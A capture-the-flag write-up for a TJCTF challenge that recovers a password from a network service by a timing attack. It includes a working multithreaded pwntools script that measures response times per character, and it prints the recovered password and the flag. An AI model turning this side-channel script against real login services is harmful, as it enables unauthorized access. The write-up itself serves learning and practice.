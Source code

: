 # Python Reversing (40 points/ 36 solves)
## Problem statement:
>I hear there's a flag hiding behind this new service, Speedy Security(TM). Can you find it?
>nc problem1.tjctf.org 8003
<br>
##My opinion:
The idea of this problem was pretty easy, perform a timing attack. Easier said than done if you ask me. 
<br><br>

## The challenge:
Connecting through netcat on the server we get the following message:
```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?

Please enter your password:

Authorization failed!
```

<br>

Ok so practically, we have a program that looks like this:

```python
def check(input,checks):
	password='thisisthepassword'
	for x in zip(input,password):
		for i in range(checks):
			if(x[0]!=x[1]):
				return 'Authorization failed!'
	return 'flag'
```

<br>

I know it's a wild guess, but after some trial and error that's what I came up with. <br>
Now, it's pretty simple how a [timing attack](https://en.wikipedia.org/wiki/Timing_attack) would work. <br> 
Try for a big number of checks (`10**6` worked for me) for each character of the password all possible characters and choose the one that took the most time to compute. Easy right? Not really, the server had some latency and sometimes it would freeze for a couple seconds. So you couldn't really guess the password in one go, also multithreading saved my life here. One more thing that was essential was to take the average of a few queries (`5` in this case was enough) in order to avoid the server's random latency.

## Getting the password:
I used the following code to get the password, but I had to restart it a few times with the last correct part of the password. I also asked the author for the length of the password, it was 32.

```python
from threading import Thread
from pwn import *
from time import time,sleep
CHECKS='1000000'
steps=5
PASS=''
S=[0 for i in range(256)]
pr='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890++'
pr=[ord(x) for x in pr]
def g(p):
	S[p]=0
	print chr(p)
	L=[Thread(target=f,args=(p,)) for i in range(steps)]
	for x in L:
		x.start()
	for x in L:
		x.join()
	S[p]/=steps
	
def f(p):
	s=remote('problem1.tjctf.org','8003')
	s.recvuntil('password?')
	s.sendline(CHECKS)
	s.recvuntil(':')
	x=time()
	s.sendline(PASS+chr(p)+'\x00'*(499-len(PASS)))
	s.recvuntil('failed!')
	y=time()
	S[p]+=y-x
	s.close()

while(1):
	for i in range(0,len(pr),8):
		W=[Thread(target=g,args=(pr[j],)) for j in range(i,i+8)]
		for R in W:
			R.start()
		for R in W:
			R.join()
	l=S
	l=[(l[pr[i]],chr(pr[i])) for i in range(len(pr))]
	print list(reversed(sorted(l)))
	l=list(reversed(sorted(l)))
	p=0
	while(l[p][1]=='+'):
		p+=1
	PASS+=l[p][1]
	print PASS
```

<br>

so the password was: **TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK** <br>

```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK
Successfully authorized.
Welcome back, [[ EVAN ]]
Your flag is  tjctf{char_chks_c4n_b3_SLOW}
```

<br>

Flag: **tjctf{char_chks_c4n_b3_SLOW}**

